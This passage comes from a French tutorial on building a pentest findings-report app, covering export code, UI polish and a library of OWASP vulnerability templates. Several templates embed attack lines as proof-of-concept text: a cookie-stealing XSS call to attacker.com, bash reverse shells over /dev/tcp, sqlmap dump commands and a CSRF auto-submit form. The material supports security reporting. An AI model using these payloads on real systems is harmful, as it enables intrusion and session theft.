        ? cvssScores.reduce((a, b) => a + b, 0) / cvssScores.length 
        : 0;
    
    return {
        total, critical, high, medium, low, info,
        criticalPercent: total > 0 ? ((critical / total) * 100).toFixed(1) : 0,
        highPercent: total > 0 ? ((high / total) * 100).toFixed(1) : 0,
        mediumPercent: total > 0 ? ((medium / total) * 100).toFixed(1) : 0,
        lowPercent: total > 0 ? ((low / total) * 100).toFixed(1) : 0,
        infoPercent: total > 0 ? ((info / total) * 100).toFixed(1) : 0,
        avgCVSS
    };
}

/**
 * Télécharger HTML
 */
function downloadHTML(html, filename = 'rapport-pentest.html') {
    const blob = new Blob([html], { type: 'text/html' });
    const url = URL.createObjectURL(blob);
    
    const a = document.createElement('a');
    a.href = url;
    a.download = filename;
    document.body.appendChild(a);
    a.click();
    document.body.removeChild(a);
    URL.revokeObjectURL(url);
}

// Exporter
window.HTMLGenerator = {
    generate: generateHTMLReport,
    download: downloadHTML
};
```

### 6.3 Intégration Exports

**Modifier le dropdown export dans le header :**

```html
<!-- Dropdown Export -->
<div x-data="dropdown()" class="relative">
    <button @click="toggle()"
            class="p-2 rounded-lg hover:bg-gray-100 dark:hover:bg-gray-700 transition flex items-center gap-2">
        <svg class="w-5 h-5" fill="none" stroke="currentColor" viewBox="0 0 24 24">
            <path stroke-linecap="round" stroke-linejoin="round" stroke-width="2" d="M12 10v6m0 0l-3-3m3 3l3-3m2 8H7a2 2 0 01-2-2V5a2 2 0 012-2h5.586a1 1 0 01.707.293l5.414 5.414a1 1 0 01.293.707V19a2 2 0 01-2 2z"></path>
        </svg>
        <span class="hidden md:inline text-sm">Export</span>
        <svg class="w-4 h-4" fill="none" stroke="currentColor" viewBox="0 0 24 24">
            <path stroke-linecap="round" stroke-linejoin="round" stroke-width="2" d="M19 9l-7 7-7-7"></path>
        </svg>
    </button>
    
    <div x-show="isOpen"
         @click.outside="close()"
         x-collapse
         class="absolute right-0 mt-2 w-64 bg-white dark:bg-gray-800 rounded-lg shadow-xl border border-gray-200 dark:border-gray-700 overflow-hidden z-50">
        
        <div class="py-2">
            <button @click="exportMarkdown(); close()"
                    class="w-full px-4 py-3 text-left hover:bg-gray-50 dark:hover:bg-gray-700 flex items-center gap-3 group">
                <svg class="w-5 h-5 text-gray-400 group-hover:text-blue-600" fill="none" stroke="currentColor" viewBox="0 0 24 24">
                    <path stroke-linecap="round" stroke-linejoin="round" stroke-width="2" d="M7 21h10a2 2 0 002-2V9.414a1 1 0 00-.293-.707l-5.414-5.414A1 1 0 0012.586 3H7a2 2 0 00-2 2v14a2 2 0 002 2z"></path>
                </svg>
                <div>
                    <p class="font-medium text-gray-900 dark:text-white">Markdown</p>
                    <p class="text-xs text-gray-500">Format texte universel</p>
                </div>
            </button>
            
            <button @click="exportHTML(); close()"
                    class="w-full px-4 py-3 text-left hover:bg-gray-50 dark:hover:bg-gray-700 flex items-center gap-3 group">
                <svg class="w-5 h-5 text-gray-400 group-hover:text-green-600" fill="none" stroke="currentColor" viewBox="0 0 24 24">
                    <path stroke-linecap="round" stroke-linejoin="round" stroke-width="2" d="M10 20l4-16m4 4l4 4-4 4M6 16l-4-4 4-4"></path>
                </svg>
                <div>
                    <p class="font-medium text-gray-900 dark:text-white">HTML</p>
                    <p class="text-xs text-gray-500">Page web standalone</p>
                </div>
            </button>
            
            <button @click="exportPDF(); close()"
                    class="w-full px-4 py-3 text-left hover:bg-gray-50 dark:hover:bg-gray-700 flex items-center gap-3 group">
                <svg class="w-5 h-5 text-gray-400 group-hover:text-red-600" fill="none" stroke="currentColor" viewBox="0 0 24 24">
                    <path stroke-linecap="round" stroke-linejoin="round" stroke-width="2" d="M7 21h10a2 2 0 002-2V9.414a1 1 0 00-.293-.707l-5.414-5.414A1 1 0 0012.586 3H7a2 2 0 00-2 2v14a2 2 0 002 2z"></path>
                </svg>
                <div>
                    <p class="font-medium text-gray-900 dark:text-white">PDF (Print)</p>
                    <p class="text-xs text-gray-500">Imprimer en PDF</p>
                </div>
            </button>
            
            <div class="border-t border-gray-200 dark:border-gray-700 my-2"></div>
            
            <button @click="$data.modalImportExport = true; close()"
                    class="w-full px-4 py-3 text-left hover:bg-gray-50 dark:hover:bg-gray-700 flex items-center gap-3 group">
                <svg class="w-5 h-5 text-gray-400 group-hover:text-purple-600" fill="none" stroke="currentColor" viewBox="0 0 24 24">
                    <path stroke-linecap="round" stroke-linejoin="round" stroke-width="2" d="M8 7H5a2 2 0 00-2 2v9a2 2 0 002 2h14a2 2 0 002-2V9a2 2 0 00-2-2h-3m-1 4l-3 3m0 0l-3-3m3 3V4"></path>
                </svg>
                <div>
                    <p class="font-medium text-gray-900 dark:text-white">Import / Export JSON</p>
                    <p class="text-xs text-gray-500">Gestion données</p>
                </div>
            </button>
        </div>
        
    </div>
</div>
```

**Ajouter méthodes export dans `pentestApp()` :**

```javascript
/**
 * Export Markdown
 */
exportMarkdown() {
    try {
        const markdown = window.MarkdownGenerator.generate(this.findings, {
            title: 'Rapport de Test d\'Intrusion',
            client: 'Client XYZ',
            tester: this.settings.defaultDiscoveredBy || 'Pentester',
            date: new Date().toLocaleDateString('fr-FR')
        });
        
        const filename = `pentest-rapport-${new Date().toISOString().split('T')[0]}.md`;
        window.MarkdownGenerator.download(markdown, filename);
        
        console.log('Export Markdown réussi');
    } catch (error) {
        console.error('Export Markdown failed:', error);
        alert('Erreur export Markdown : ' + error.message);
    }
},

/**
 * Export HTML
 */
exportHTML() {
    try {
        const html = window.HTMLGenerator.generate(this.findings, {
            title: 'Rapport de Test d\'Intrusion',
            client: 'Client XYZ',
            tester: this.settings.defaultDiscoveredBy || 'Pentester',
            date: new Date().toLocaleDateString('fr-FR')
        });
        
        const filename = `pentest-rapport-${new Date().toISOString().split('T')[0]}.html`;
        window.HTMLGenerator.download(html, filename);
        
        console.log('Export HTML réussi');
    } catch (error) {
        console.error('Export HTML failed:', error);
        alert('Erreur export HTML : ' + error.message);
    }
},

/**
 * Export PDF (via window.print)
 */
exportPDF() {
    try {
        // Générer HTML optimisé print
        const html = window.HTMLGenerator.generate(this.findings, {
            title: 'Rapport de Test d\'Intrusion',
            client: 'Client XYZ',
            tester: this.settings.defaultDiscoveredBy || 'Pentester',
            date: new Date().toLocaleDateString('fr-FR')
        });
        
        // Ouvrir dans nouvelle fenêtre pour impression
        const printWindow = window.open('', '_blank');
        printWindow.document.write(html);
        printWindow.document.close();
        
        // Déclencher dialogue impression après chargement
        printWindow.onload = () => {
            printWindow.print();
        };
        
        console.log('Print dialog ouvert');
    } catch (error) {
        console.error('Export PDF failed:', error);
        alert('Erreur export PDF : ' + error.message);
    }
},
```

**Charger scripts dans `index.html` :**

```html
<script src="assets/js/utils/cvss-calculator.js"></script>
<script src="assets/js/utils/export.js"></script>
<script src="assets/js/utils/markdown-generator.js"></script> <!-- Nouveau -->
<script src="assets/js/utils/html-generator.js"></script> <!-- Nouveau -->
```

### Points Clés à Retenir Phase 6

- 🔑 **Markdown** : Format universel, simple, compatible Git/documentation
- 🔑 **HTML standalone** : CSS inline, aucune dépendance externe
- 🔑 **Print-optimized** : CSS `@media print` pour PDF propre
- 🔑 **Template pattern** : Fonctions génération séparées = réutilisables
- 🔑 **Escape HTML** : Toujours échapper user input dans HTML
- 🔑 **Blob API** : Génération fichiers côté client (pas de serveur)
- 🔑 **window.print()** : Dialogue impression natif navigateur

### Checkpoint Phase 6

Vérifiez que vous pouvez :

- ✅ Cliquer "Export Markdown" → Télécharge .md professionnel
- ✅ Ouvrir .md → Structure complète (résumé, TOC, findings, annexes)
- ✅ Cliquer "Export HTML" → Télécharge .html stylisé
- ✅ Ouvrir .html dans navigateur → Rendu professionnel
- ✅ Cliquer "Export PDF" → Dialogue impression s'ouvre
- ✅ Imprimer en PDF → Layout optimisé (pas de boutons, couleurs print-friendly)

---

## Phase 7 : Polish & UX (1h45)

<div class="omny-meta" data-level="🟡 Intermédiaire" data-time="1h45"></div>

### Objectifs Phase 7

À la fin de cette phase, vous saurez :

- ✅ Perfectionner le système dark mode
- ✅ Ajouter des transitions fluides partout
- ✅ Implémenter des shortcuts clavier
- ✅ Créer un système de notifications
- ✅ Optimiser le responsive design
- ✅ Ajouter des loading states

### 7.1 Dark Mode Perfectionné

**Le store theme existe déjà, on l'améliore :**

```javascript
// Dans app.js, améliorer Alpine.store('theme')
Alpine.store('theme', {
    current: Alpine.$persist('light').as('app-theme'),
    
    toggle() {
        this.current = this.current === 'light' ? 'dark' : 'light';
        this.apply();
    },
    
    set(mode) {
        if (['light', 'dark'].includes(mode)) {
            this.current = mode;
            this.apply();
        }
    },
    
    apply() {
        if (this.current === 'dark') {
            document.documentElement.classList.add('dark');
        } else {
            document.documentElement.classList.remove('dark');
        }
    },
    
    init() {
        this.apply();
        
        // Détecter préférence système
        const mediaQuery = window.matchMedia('(prefers-color-scheme: dark)');
        mediaQuery.addEventListener('change', (e) => {
            if (!localStorage.getItem('app-theme')) { // Seulement si pas déjà défini
                this.current = e.matches ? 'dark' : 'light';
                this.apply();
            }
        });
    }
});
```

### 7.2 Système de Notifications

**Créer composant notifications :**

```javascript
// Dans app.js
Alpine.data('notifications', () => ({
    items: [],
    
    init() {
        // Écouter événements notification
        window.addEventListener('notification', (e) => {
            this.add(e.detail);
        });
    },
    
    add(notification) {
        const id = Date.now() + Math.random();
        const item = {
            id,
            type: notification.type || 'info', // success, error, warning, info
            message: notification.message || '',
            duration: notification.duration || 3000
        };
        
        this.items.push(item);
        
        // Auto-remove après durée
        if (item.duration > 0) {
            setTimeout(() => this.remove(id), item.duration);
        }
    },
    
    remove(id) {
        const index = this.items.findIndex(i => i.id === id);
        if (index !== -1) {
            this.items.splice(index, 1);
        }
    }
}));
```

**Template notifications (ajouter dans `index.html` avant `</body>`) :**

```html
<!-- Notifications Toast -->
<div x-data="notifications()"
     class="fixed top-4 right-4 z-50 space-y-2"
     style="max-width: 400px;">
    <template x-for="notif in items" :key="notif.id">
        <div x-show="true"
             x-transition:enter="transform transition ease-out duration-300"
             x-transition:enter-start="translate-x-full opacity-0"
             x-transition:enter-end="translate-x-0 opacity-100"
             x-transition:leave="transform transition ease-in duration-200"
             x-transition:leave-start="translate-x-0 opacity-100"
             x-transition:leave-end="translate-x-full opacity-0"
             :class="{
                 'bg-green-50 border-green-200 text-green-800': notif.type === 'success',
                 'bg-red-50 border-red-200 text-red-800': notif.type === 'error',
                 'bg-yellow-50 border-yellow-200 text-yellow-800': notif.type === 'warning',
                 'bg-blue-50 border-blue-200 text-blue-800': notif.type === 'info'
             }"
             class="flex items-center gap-3 px-4 py-3 rounded-lg shadow-lg border">
            <!-- Icon -->
            <svg x-show="notif.type === 'success'" class="w-5 h-5 text-green-600" fill="currentColor" viewBox="0 0 20 20">
                <path fill-rule="evenodd" d="M10 18a8 8 0 100-16 8 8 0 000 16zm3.707-9.293a1 1 0 00-1.414-1.414L9 10.586 7.707 9.293a1 1 0 00-1.414 1.414l2 2a1 1 0 001.414 0l4-4z" clip-rule="evenodd"></path>
            </svg>
            <svg x-show="notif.type === 'error'" class="w-5 h-5 text-red-600" fill="currentColor" viewBox="0 0 20 20">
                <path fill-rule="evenodd" d="M10 18a8 8 0 100-16 8 8 0 000 16zM8.707 7.293a1 1 0 00-1.414 1.414L8.586 10l-1.293 1.293a1 1 0 101.414 1.414L10 11.414l1.293 1.293a1 1 0 001.414-1.414L11.414 10l1.293-1.293a1 1 0 00-1.414-1.414L10 8.586 8.707 7.293z" clip-rule="evenodd"></path>
            </svg>
            <svg x-show="notif.type === 'warning'" class="w-5 h-5 text-yellow-600" fill="currentColor" viewBox="0 0 20 20">
                <path fill-rule="evenodd" d="M8.257 3.099c.765-1.36 2.722-1.36 3.486 0l5.58 9.92c.75 1.334-.213 2.98-1.742 2.98H4.42c-1.53 0-2.493-1.646-1.743-2.98l5.58-9.92zM11 13a1 1 0 11-2 0 1 1 0 012 0zm-1-8a1 1 0 00-1 1v3a1 1 0 002 0V6a1 1 0 00-1-1z" clip-rule="evenodd"></path>
            </svg>
            <svg x-show="notif.type === 'info'" class="w-5 h-5 text-blue-600" fill="currentColor" viewBox="0 0 20 20">
                <path fill-rule="evenodd" d="M18 10a8 8 0 11-16 0 8 8 0 0116 0zm-7-4a1 1 0 11-2 0 1 1 0 012 0zM9 9a1 1 0 000 2v3a1 1 0 001 1h1a1 1 0 100-2v-3a1 1 0 00-1-1H9z" clip-rule="evenodd"></path>
            </svg>
            <!-- Message -->
            <p class="flex-1 text-sm font-medium" x-text="notif.message"></p>
            <!-- Close -->
            <button @click="remove(notif.id)"
                    class="text-gray-400 hover:text-gray-600">
                <svg class="w-4 h-4" fill="none" stroke="currentColor" viewBox="0 0 24 24">
                    <path stroke-linecap="round" stroke-linejoin="round" stroke-width="2" d="M6 18L18 6M6 6l12 12"></path>
                </svg>
            </button>
        </div>
    </template>
</div>
```

**Utiliser les notifications :**

```javascript
// Dans n'importe quelle méthode
this.$dispatch('notification', {
    type: 'success',
    message: 'Finding créé avec succès',
    duration: 3000
});
```

### 7.3 Shortcuts Clavier

**Ajouter dans `pentestApp()` :**

```javascript
// Shortcuts clavier
initKeyboardShortcuts() {
    document.addEventListener('keydown', (e) => {
        // Ctrl+N : Nouveau finding
        if ((e.ctrlKey || e.metaKey) && e.key === 'n') {
            e.preventDefault();
            this.openAddModal();
        }
        
        // Ctrl+K : Focus search
        if ((e.ctrlKey || e.metaKey) && e.key === 'k') {
            e.preventDefault();
            const searchInput = document.querySelector('input[type="text"][placeholder*="Rechercher"]');
            searchInput?.focus();
        }
        
        // Ctrl+E : Export
        if ((e.ctrlKey || e.metaKey) && e.key === 'e') {
            e.preventDefault();
            this.exportMarkdown();
        }
        
        // Escape : Fermer tous modals
        if (e.key === 'Escape') {
            this.modalAdd = false;
            this.modalCVSS = false;
            this.modalImportExport = false;
        }
    });
},

init() {
    // ... code existant
    this.initKeyboardShortcuts();
},
```

### 7.4 Loading States

**Ajouter états loading dans `pentestApp()` :**

```javascript
loading: {
    findings: false,
    export: false,
    import: false
},

async saveFinding() {
    this.loading.findings = true;
    
    // ... code save existant
    
    // Simuler délai réseau (optionnel pour UX)
    await new Promise(r => setTimeout(r, 300));
    
    this.loading.findings = false;
},
```

**Afficher dans boutons :**

```html
<button type="submit"
        :disabled="loading.findings"
        class="px-6 py-2 bg-blue-600 text-white rounded-lg hover:bg-blue-700 disabled:opacity-50 disabled:cursor-wait">
    <span x-show="!loading.findings">Enregistrer</span>
    <span x-show="loading.findings" class="flex items-center gap-2">
        <svg class="animate-spin w-4 h-4" fill="none" stroke="currentColor" viewBox="0 0 24 24">
            <circle class="opacity-25" cx="12" cy="12" r="10" stroke="currentColor" stroke-width="4"></circle>
            <path class="opacity-75" fill="currentColor" d="M4 12a8 8 0 018-8V0C5.373 0 0 5.373 0 12h4zm2 5.291A7.962 7.962 0 014 12H0c0 3.042 1.135 5.824 3 7.938l3-2.647z"></path>
        </svg>
        Enregistrement...
    </span>
</button>
```

### Points Clés à Retenir Phase 7

- 🔑 **Dark mode** : Préférence système détectée automatiquement
- 🔑 **Notifications** : Système toast réutilisable avec événements custom
- 🔑 **Shortcuts** : Améliore productivité utilisateurs avancés
- 🔑 **Loading states** : Feedback visuel pour actions async
- 🔑 **Transitions** : `x-transition` partout pour fluidité
- 🔑 **UX polish** : Petits détails = grande différence professionnelle

### Checkpoint Phase 7

Vérifiez que vous pouvez :

- ✅ Toggle dark mode → Transition fluide
- ✅ Recharger page → Thème persiste
- ✅ Action (créer finding) → Toast notification apparaît
- ✅ Ctrl+N → Ouvre modal ajout
- ✅ Ctrl+K → Focus sur recherche
- ✅ Escape → Ferme tous modals
- ✅ Bouton "Enregistrer" → Spinner pendant sauvegarde

---

## Phase 8 : Templates Library (2h)

<div class="omny-meta" data-level="🟡 Intermédiaire" data-time="2 heures"></div>

### Objectifs Phase 8

À la fin de cette phase, vous saurez :

- ✅ Créer une bibliothèque de templates de vulnérabilités
- ✅ Implémenter 20+ templates OWASP Top 10
- ✅ Ajouter un système de quick-add
- ✅ Personnaliser les templates
- ✅ Catégoriser les vulnérabilités courantes

### 8.1 Bibliothèque Templates

**Fichier :** Créer `assets/js/data/templates.js`

```javascript
/**
 * Bibliothèque Templates Vulnérabilités
 * Templates pré-remplis basés OWASP Top 10 et CWE courantes
 */

const VULNERABILITY_TEMPLATES = {
    // === OWASP Top 10 2021 ===
    
    // A01:2021 – Broken Access Control
    idor: {
        title: 'Insecure Direct Object Reference (IDOR)',
        severity: 'high',
        category: 'access-control',
        description: 'L\'application permet d\'accéder à des objets (fichiers, profils utilisateurs, données) en modifiant simplement un identifiant dans l\'URL ou le corps de la requête, sans vérifier les autorisations.',
        impact: 'Un attaquant peut accéder aux données d\'autres utilisateurs, modifier ou supprimer des ressources auxquelles il ne devrait pas avoir accès.',
        reproduction: [
            'Se connecter avec un compte utilisateur normal',
            'Observer l\'URL lors de la consultation d\'un profil : /user/profile?id=123',
            'Modifier l\'ID : /user/profile?id=124',
            'Accéder au profil d\'un autre utilisateur sans autorisation'
        ],
        remediation: 'Implémenter une vérification d\'autorisation côté serveur pour chaque accès à une ressource. Utiliser des identifiants non prédictibles (UUID) et valider que l\'utilisateur connecté a le droit d\'accéder à la ressource demandée.',
        references: [
            'OWASP Top 10 2021: A01 Broken Access Control',
            'CWE-639: Authorization Bypass Through User-Controlled Key',
            'https://cheatsheetseries.owasp.org/cheatsheets/Insecure_Direct_Object_Reference_Prevention_Cheat_Sheet.html'
        ],
        cvss: {
            version: '3.1',
            vector: 'CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:N',
            score: 8.1,
            rating: 'High'
        }
    },
    
    path_traversal: {
        title: 'Path Traversal / Directory Traversal',
        severity: 'high',
        category: 'access-control',
        description: 'L\'application permet de manipuler les chemins de fichiers via des séquences "../" pour accéder à des fichiers en dehors du répertoire prévu.',
        impact: 'Lecture de fichiers sensibles du système (configuration, logs, code source, fichiers système comme /etc/passwd).',
        reproduction: [
            'Identifier un paramètre acceptant un nom de fichier : /download?file=document.pdf',
            'Injecter des séquences de traversée : /download?file=../../../../etc/passwd',
            'Observer le contenu du fichier système renvoyé'
        ],
        remediation: 'Valider strictement les noms de fichiers en whitelist. Ne jamais construire des chemins avec input utilisateur. Utiliser des fonctions sécurisées comme realpath() et vérifier que le chemin résolu reste dans le répertoire autorisé.',
        references: [
            'OWASP Top 10 2021: A01 Broken Access Control',
            'CWE-22: Path Traversal',
            'https://owasp.org/www-community/attacks/Path_Traversal'
        ],
        cvss: {
            version: '3.1',
            vector: 'CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N',
            score: 7.5,
            rating: 'High'
        }
    },
    
    // A03:2021 – Injection
    sql_injection: {
        title: 'SQL Injection',
        severity: 'critical',
        category: 'injection',
        description: 'L\'application concatène directement l\'input utilisateur dans les requêtes SQL sans validation ni échappement, permettant l\'injection de code SQL arbitraire.',
        impact: 'Lecture complète de la base de données, modification/suppression de données, contournement d\'authentification, exécution de commandes système (via xp_cmdshell sur MSSQL ou UDF sur MySQL).',
        reproduction: [
            'Identifier un champ vulnérable (login, recherche, etc.)',
            'Injecter un payload SQL : \' OR 1=1--',
            'Observer le comportement : authentification contournée ou erreur SQL révélée',
            'Exploiter avec SQLMap pour dump complet : sqlmap -u "http://target.com/login" --data "username=admin&password=test" --dbs'
        ],
        remediation: 'Utiliser EXCLUSIVEMENT des requêtes préparées (prepared statements) avec paramètres bindés. Ne jamais concaténer input utilisateur dans SQL. Appliquer le principe du moindre privilège aux comptes BDD.',
        proofOfConcept: `sqlmap -u "http://target.com/search?q=test" --batch --dump`,
        references: [
            'OWASP Top 10 2021: A03 Injection',
            'CWE-89: SQL Injection',
            'https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html'
        ],
        cvss: {
            version: '3.1',
            vector: 'CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H',
            score: 10.0,
            rating: 'Critical'
        }
    },
    
    xss_reflected: {
        title: 'Cross-Site Scripting (XSS) - Reflected',
        severity: 'medium',
        category: 'xss',
        description: 'L\'application reflète input utilisateur dans la réponse HTML sans échappement, permettant l\'exécution de JavaScript arbitraire dans le contexte de la victime.',
        impact: 'Vol de cookies/sessions, redirection vers sites malveillants, defacement, keylogging, phishing ciblé.',
        reproduction: [
            'Identifier un paramètre reflété : /search?q=test',
            'Injecter payload XSS : /search?q=<script>alert(document.cookie)</script>',
            'Observer l\'exécution du JavaScript dans le navigateur',
            'Exploiter avec BeEF pour compromission complète'
        ],
        remediation: 'Échapper TOUTES les données utilisateur avant affichage HTML (htmlspecialchars en PHP, textContent en JS). Implémenter Content Security Policy (CSP). Valider input en whitelist.',
        proofOfConcept: `<script>fetch('https://attacker.com/steal?cookie='+document.cookie)</script>`,
        references: [
            'OWASP Top 10 2021: A03 Injection',
            'CWE-79: Cross-Site Scripting',
            'https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html'
        ],
        cvss: {
            version: '3.1',
            vector: 'CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:L/A:N',
            score: 6.1,
            rating: 'Medium'
        }
    },
    
    xss_stored: {
        title: 'Cross-Site Scripting (XSS) - Stored',
        severity: 'high',
        category: 'xss',
        description: 'L\'application stocke input utilisateur dans BDD et l\'affiche sans échappement, permettant XSS persistant affectant tous les utilisateurs consultant la page.',
        impact: 'Compromission de tous les utilisateurs visitant la page infectée. Vol massif de sessions, propagation de malware, defacement permanent.',
        reproduction: [
            'Identifier un champ stocké (commentaire, profil, message)',
            'Injecter payload XSS : ',
            'Soumettre et consulter la page',
            'Observer l\'exécution du payload pour tous les visiteurs'
        ],
        remediation: 'Échapper à l\'affichage ET encoder au stockage. Implémenter CSP strict. Valider input en whitelist. Utiliser framework auto-escape (React, Vue).',
        proofOfConcept: ``,
        references: [
            'OWASP Top 10 2021: A03 Injection',
            'CWE-79: Cross-Site Scripting',
            'CWE-80: Improper Neutralization of Script-Related HTML Tags'
        ],
        cvss: {
            version: '3.1',
            vector: 'CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:C/C:L/I:L/A:N',
            score: 6.4,
            rating: 'Medium'
        }
    },
    
    command_injection: {
        title: 'Command Injection / OS Command Injection',
        severity: 'critical',
        category: 'injection',
        description: 'L\'application exécute des commandes système en y incluant input utilisateur non filtré, permettant l\'exécution de commandes arbitraires sur le serveur.',
        impact: 'Prise de contrôle complète du serveur, exfiltration de données, installation de backdoor, pivot vers réseau interne.',
        reproduction: [
            'Identifier une fonctionnalité exécutant des commandes (ping, nslookup, conversion fichier)',
            'Injecter commande : 127.0.0.1; cat /etc/passwd',
            'Observer la sortie de la commande injectée',
            'Établir reverse shell : 127.0.0.1; bash -i >& /dev/tcp/attacker/4444 0>&1'
        ],
        remediation: 'Ne JAMAIS exécuter de commandes avec input utilisateur. Si absolument nécessaire, utiliser whitelist stricte et fonctions d\'échappement (escapeshellarg). Préférer bibliothèques natives aux appels système.',
        proofOfConcept: `bash -i >& /dev/tcp/10.10.10.10/4444 0>&1`,
        references: [
            'OWASP Top 10 2021: A03 Injection',
            'CWE-78: OS Command Injection',
            'https://owasp.org/www-community/attacks/Command_Injection'
        ],
        cvss: {
            version: '3.1',
            vector: 'CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H',
            score: 10.0,
            rating: 'Critical'
        }
    },
    
    // A07:2021 – Identification and Authentication Failures
    broken_auth: {
        title: 'Broken Authentication - Weak Password Policy',
        severity: 'high',
        category: 'auth',
        description: 'L\'application n\'impose pas de politique de mot de passe robuste, permettant l\'utilisation de mots de passe faibles facilement bruteforcés.',
        impact: 'Compromission de comptes utilisateurs par bruteforce, credential stuffing, ou attaques par dictionnaire.',
        reproduction: [
            'Créer un compte avec mot de passe faible : "123456"',
            'Observer que l\'application accepte sans validation de complexité',
            'Tester bruteforce avec Hydra/Burp Suite sans limitation de tentatives'
        ],
        remediation: 'Implémenter politique stricte : minimum 12 caractères, majuscules, minuscules, chiffres, caractères spéciaux. Vérifier contre liste de mots de passe courants (Have I Been Pwned). Rate limiting sur tentatives. MFA obligatoire.',
        references: [
            'OWASP Top 10 2021: A07 Identification and Authentication Failures',
            'CWE-521: Weak Password Requirements',
            'https://cheatsheetseries.owasp.org/cheatsheets/Authentication_Cheat_Sheet.html'
        ],
        cvss: {
            version: '3.1',
            vector: 'CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N',
            score: 7.5,
            rating: 'High'
        }
    },
    
    session_fixation: {
        title: 'Session Fixation',
        severity: 'high',
        category: 'auth',
        description: 'L\'application ne régénère pas l\'ID de session après authentification réussie, permettant à un attaquant de fixer une session et de la récupérer après login de la victime.',
        impact: 'Hijacking de session authentifiée, accès non autorisé au compte de la victime.',
        reproduction: [
            'Obtenir un ID de session non authentifiée : PHPSESSID=attacker123',
            'Forcer la victime à utiliser cet ID (XSS, lien malveillant)',
            'Victime se connecte avec cet ID de session',
            'Attaquant utilise PHPSESSID=attacker123 et accède au compte authentifié'
        ],
        remediation: 'TOUJOURS régénérer l\'ID de session après authentification (session_regenerate_id() en PHP). Invalider ancienne session. Implémenter secure + httpOnly + SameSite sur cookies.',
        references: [
            'OWASP Top 10 2021: A07 Identification and Authentication Failures',
            'CWE-384: Session Fixation'
        ],
        cvss: {
            version: '3.1',
            vector: 'CVSS:3.1/AV:N/AC:H/PR:N/UI:R/S:U/C:H/I:H/A:N',
            score: 6.8,
            rating: 'Medium'
        }
    },
    
    // A08:2021 – Software and Data Integrity Failures
    csrf: {
        title: 'Cross-Site Request Forgery (CSRF)',
        severity: 'medium',
        category: 'csrf',
        description: 'L\'application n\'implémente pas de token anti-CSRF, permettant à un attaquant de forger des requêtes authentifiées au nom de la victime.',
        impact: 'Actions non voulues effectuées au nom de l\'utilisateur : changement mot de passe, virement bancaire, suppression de données, modification profil.',
        reproduction: [
            'Identifier une action sensible sans token CSRF : POST /user/update',
            'Créer page malveillante avec formulaire auto-submit',
            'Victime visite la page malveillante en étant connectée',
            'Action exécutée avec session de la victime'
        ],
        remediation: 'Implémenter tokens CSRF synchronisés. Vérifier token côté serveur pour toutes actions modifiant état. Utiliser SameSite=Strict sur cookies. Double-submit cookie pattern en alternative.',
        proofOfConcept: `<form action="https://bank.com/transfer" method="POST">
  <input name="to" value="attacker">
  <input name="amount" value="10000">
</form>
<script>document.forms[0].submit()</script>`,
        references: [
            'OWASP Top 10 2021: A08 Software and Data Integrity Failures',
            'CWE-352: Cross-Site Request Forgery',
            'https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site_Request_Forgery_Prevention_Cheat_Sheet.html'
        ],
        cvss: {
            version: '3.1',
            vector: 'CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:N/I:H/A:N',
            score: 6.5,
            rating: 'Medium'
        }
    },
    
    // A02:2021 – Cryptographic Failures
    sensitive_data_exposure: {
        title: 'Sensitive Data Exposure - Unencrypted Transmission',
        severity: 'high',
        category: 'crypto',
        description: 'L\'application transmet des données sensibles (mots de passe, tokens, données personnelles) en clair sur HTTP sans chiffrement.',
        impact: 'Interception de credentials, tokens, données personnelles via Man-in-the-Middle (MITM) sur réseaux publics.',
        reproduction: [
            'Observer le trafic réseau avec Wireshark ou Burp Suite',
            'Se connecter à l\'application',
            'Constater que login/password transitent en clair dans requête HTTP',
            'Capturer credentials en MITM sur WiFi public'
        ],
        remediation: 'Forcer HTTPS sur TOUTE l\'application (HSTS). Rediriger HTTP → HTTPS. Utiliser certificats valides. Implémenter Certificate Pinning dans apps mobiles.',
        references: [
            'OWASP Top 10 2021: A02 Cryptographic Failures',
            'CWE-319: Cleartext Transmission of Sensitive Information',
            'https://cheatsheetseries.owasp.org/cheatsheets/Transport_Layer_Protection_Cheat_Sheet.html'
        ],
        cvss: {
            version: '3.1',
            vector: 'CVSS:3.1/AV:N/AC:H/PR:N/UI:N/S:U/C:H/I:H/A:N',
            score: 7.4,
            rating: 'High'
        }
    },
    
    weak_crypto: {
        title: 'Use of Weak Cryptographic Algorithm',
        severity: 'medium',
        category: 'crypto',
        description: 'L\'application utilise des algorithmes cryptographiques obsolètes ou faibles (MD5, SHA1, DES) pour hasher passwords ou chiffrer données.',
        impact: 'Déchiffrement de données sensibles, craquage de hash de mots de passe avec rainbow tables.',
        reproduction: [
            'Observer hashes de mots de passe en BDD ou dans cookies',
            'Identifier algorithme faible (MD5, SHA1)',
            'Craquer avec hashcat : hashcat -m 0 -a 0 hash.txt rockyou.txt'
        ],
        remediation: 'Utiliser bcrypt/Argon2 pour passwords. AES-256-GCM pour chiffrement. SHA-256 minimum pour hachage non-password. Remplacer MD5/SHA1 partout.',
        references: [
            'OWASP Top 10 2021: A02 Cryptographic Failures',
            'CWE-327: Use of a Broken or Risky Cryptographic Algorithm',
            'https://cheatsheetseries.owasp.org/cheatsheets/Cryptographic_Storage_Cheat_Sheet.html'
        ],
        cvss: {
            version: '3.1',
            vector: 'CVSS:3.1/AV:N/AC:H/PR:N/UI:N/S:U/C:H/I:N/A:N',
            score: 5.9,
            rating: 'Medium'
        }
    },
    
    // A05:2021 – Security Misconfiguration
    directory_listing: {
        title: 'Directory Listing Enabled',
        severity: 'low',
        category: 'config',
        description: 'Le serveur web a le listing de répertoires activé, exposant l\'arborescence de fichiers et permettant la découverte de fichiers sensibles.',
        impact: 'Découverte de fichiers de backup (.bak, .old), sources (.php.bak), configs, fichiers oubliés contenant credentials ou informations sensibles.',
        reproduction: [
            'Accéder à un répertoire sans index : https://target.com/uploads/',
            'Observer la liste complète des fichiers du répertoire',
